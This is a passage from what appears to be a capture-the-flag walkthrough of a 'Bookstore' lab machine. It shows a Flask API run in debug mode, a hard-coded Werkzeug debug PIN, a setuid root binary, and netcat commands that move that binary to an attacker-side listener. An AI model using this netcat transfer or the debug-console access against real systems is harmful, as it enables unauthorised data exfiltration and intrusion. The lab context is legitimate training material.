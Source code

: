 ```bash

    results = cur.execute(query, to_filter).fetchall()

    return jsonify(results)

print(getattr(app, '__name__', getattr(app.__class__, '__name__')))

app.run(host='0.0.0.0', port=5000, debug = True)
```

```bash
sid@bookstore:~$ ls -lah
total 80K
drwxr-xr-x 5 sid  sid  4.0K Oct 20  2020 .
drwxr-xr-x 3 root root 4.0K Oct 20  2020 ..
-r--r--r-- 1 sid  sid  4.6K Oct 20  2020 api.py
-r-xr-xr-x 1 sid  sid   160 Oct 14  2020 api-up.sh
-r--r----- 1 sid  sid   116 Oct 20  2020 .bash_history
-rw-r--r-- 1 sid  sid   220 Oct 20  2020 .bash_logout
-rw-r--r-- 1 sid  sid  3.7K Oct 20  2020 .bashrc
-rw-rw-r-- 1 sid  sid   16K Oct 19  2020 books.db
drwx------ 2 sid  sid  4.0K Oct 20  2020 .cache
drwx------ 3 sid  sid  4.0K Oct 20  2020 .gnupg
drwxrwxr-x 3 sid  sid  4.0K Oct 20  2020 .local
-rw-r--r-- 1 sid  sid   807 Oct 20  2020 .profile
-rwsrwsr-x 1 root sid  8.3K Oct 20  2020 try-harder
-r--r----- 1 sid  sid    33 Oct 15  2020 user.txt
```


```bash
sid@bookstore:~$ cat api-up.sh
#!/bin/bash
if ps -a |grep 'api.py';then
	echo 'API is up';
else
	export WERKZEUG_DEBUG_PIN=123-321-135
	cd /home/sid && /usr/bin/python3  /home/sid/api.py
fi	
```

```bash
sid@bookstore:~$ ./try-harder
What's The Magic Number?!
12345
Incorrect Try Harder
```



```bash
sid@bookstore:~$ nc 10.10.20.182 1337 < try-harder
```

```bash
:~/Bookstore#  nc -nlvp 1337 > try-harder
Listening on 0.0.0.0 1337
Connection received on TargetIP 32924
```
